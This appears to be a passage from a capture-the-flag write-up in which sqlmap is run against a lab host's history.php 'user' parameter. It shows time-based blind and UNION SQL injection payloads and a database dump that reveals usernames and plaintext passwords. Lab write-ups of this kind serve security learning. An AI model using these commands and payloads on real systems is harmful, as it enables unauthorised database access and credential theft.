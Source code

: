 ```
[ main ✓ ] ❯ sqlmap -u http://192.168.0.83/history.php?user=HACKME --cookie="PHPSESSID=8dcclmcf7jn9bhm78cgmpb1gcc"
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.5.5#stable}
|_ -| . [)]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:36:49 /2021-11-03/
...
[17:37:00] [INFO] GET parameter 'user' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
...
GET parameter 'user' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 69 HTTP(s) requests:
---
Parameter: user (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=HACKME' AND (SELECT 6235 FROM (SELECT(SLEEP(5)))exSH) AND 'LWxD'='LWxD

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: user=HACKME' UNION ALL SELECT CONCAT(0x71786b7171,0x4857747478696555794c4741507463674c667469616f49795354595a68444f705a48565173527951,0x716b7a6271)-- -
---
```

We have an injection point!

```
[ main ✓ ] ❯ sqlmap -u http://192.168.0.83/history.php?user=HACKME --cookie="PHPSESSID=8dcclmcf7jn9bhm78cgmpb1gcc" --dump
...
Database: users
Table: details
[4 entries]
+--------------+-----------------------+
| name         | password              |
+--------------+-----------------------+
| admin        | myadmin#p4szw0r4d     |
| john         | Sup3r$S3cr3t$PasSW0RD |
| platonicgerm | password              |
+--------------+-----------------------+
...
```
